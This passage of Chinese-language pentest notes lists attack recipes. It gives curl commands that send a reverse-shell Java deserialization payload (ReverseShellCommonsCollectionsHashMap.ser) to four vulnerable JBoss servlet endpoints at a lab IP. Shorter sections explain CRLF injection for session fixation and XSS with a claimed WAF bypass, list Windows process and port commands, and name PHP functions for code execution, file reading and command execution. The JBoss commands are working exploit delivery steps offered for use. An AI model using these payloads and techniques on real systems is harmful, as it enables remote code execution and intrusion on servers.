 `curl http://192.168.31.205:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser`

### Jboss JMXInvokerServlet 反序列化

发到/invoker/JMXInvokerServlet接口，ser同上。

``curl http://192.168.31.205:8080/invoker/JMXInvokerServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser``

### JBoss EJBInvokerServlet反序列化

发送到/invoker/EJBInvokerServlet接口，ser还是上面的。

``curl http://192.168.31.205:8080/invoker/EJBInvokerServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser``



### JBoss <=4.x JBossMQJMS反序列化

还是上面的ser，发到/jbossmq-httpil/HTTPServerILServlet接口：

`curl http://192.168.31.205:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser`









# 6.CRLF

即CR（回车，\r，%0d）和换行（LF，\n，%0a）。

http中header和body就是使用两个crlf进行分割的，可造成cookie会话固定和反射xss（可过waf），注入xss，连续使用两个\r\n即可。

# 7.win/Linux 

## 查询远程端口开放

```
tasklist /svc
netstat -ano
```

# 8.代码执行、文件读取，命令执行的函数

```
1）代码执⾏： 
eval,preg_replace+/e,assert,call_user_func,call_user_func_array,create_function 
2）⽂件读取： 
file_get_contents(),highlight_file(),fopen(),read file(),fread(),fgetss(), fgets(),parse_ini_file(),show_source(),file()等 
3)命令执⾏：
system(), exec(), shell_exec(), passthru() ,pcntl_exec(), popen(),proc_open()
```
